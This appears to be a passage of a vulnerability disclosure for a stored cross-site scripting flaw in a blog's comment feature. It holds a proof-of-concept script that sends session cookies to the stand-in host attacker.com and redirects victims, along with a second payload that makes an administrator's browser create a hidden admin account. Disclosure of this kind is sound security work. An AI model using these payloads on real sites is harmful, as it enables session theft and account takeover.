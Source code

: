 ## Proof of Concept

### Step 1: Craft Malicious Payload
```html
<script>
    // Steal session cookies
    fetch('https://attacker.com/steal.php?cookie=' + document.cookie);
    
    // Redirect to malicious site
    setTimeout(() => {
        window.location.href = 'https://malicious-site.com';
    }, 2000);
</script>
```

### Step 2: Submit Comment
1. Navigate to any blog post with comments enabled
2. Submit the malicious payload as a comment
3. The script gets stored in the database without sanitization

### Step 3: Trigger Execution
When any user (including administrators) views the blog post, the malicious JavaScript executes automatically.

## Impact Assessment

### Potential Consequences
1. **Session Hijacking**: Steal authentication cookies
2. **Account Takeover**: Perform actions on behalf of victims
3. **Data Theft**: Access sensitive information displayed on the page
4. **Malware Distribution**: Redirect users to malicious websites
5. **Defacement**: Modify page content dynamically

### Affected Users
- All users viewing blog posts with malicious comments
- Particularly dangerous for administrative users
- Estimated 10,000+ active users potentially affected

## Exploitation Scenarios

### Scenario 1: Admin Account Compromise
```javascript
// Payload targeting admin functionality
<script>
if(document.querySelector('.admin-panel')) {
    // Admin detected, perform privileged actions
    fetch('/admin/create-user', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({
            username: 'backdoor',
            password: 'hacked123',
            role: 'admin'
        })
    });
}
</script>
```

